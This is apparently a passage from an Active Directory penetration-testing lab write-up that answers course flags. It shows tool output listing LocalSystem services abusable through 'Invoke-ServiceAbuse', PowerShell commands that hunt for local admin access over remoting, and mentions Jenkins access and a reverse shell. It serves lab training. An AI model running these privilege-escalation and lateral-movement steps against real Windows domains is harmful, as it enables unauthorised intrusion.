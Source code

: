 ```powershell
ServiceName   : AbyssWebServer
Path          : C:\WebServer\Abyss Web Server\abyssws.exe -service
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'AbyssWebServer'
CanRestart    : True
Name          : AbyssWebServer
Check         : Modifiable Services

ServiceName   : SNMPTRAP
Path          : C:\Windows\System32\snmptrap.exe
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'SNMPTRAP'
CanRestart    : True
Name          : SNMPTRAP
Check         : Modifiable Services
```

### Flag 6 \[Student VM] - Script used for hunting for admin privileges using PowerShell Remoting 🚩

As seen in the task 2, we used Find-XXXXXXXXXXXX for hunting admin privileges using PS remoting:

```powershell
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
```

### Flag 7 \[dcorp-ci] - Jenkins user used to access Jenkins web console 🚩

Based on the task 3, we can login as XXXXXXX account:

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 8 \[dcorp-ci] - Domain user used for running Jenkins service on dcorp-ci 🚩

As see in the task 3, interacting with machine after the reverse shell we've check target information, in this case the domain user is: `XXXXXXX`
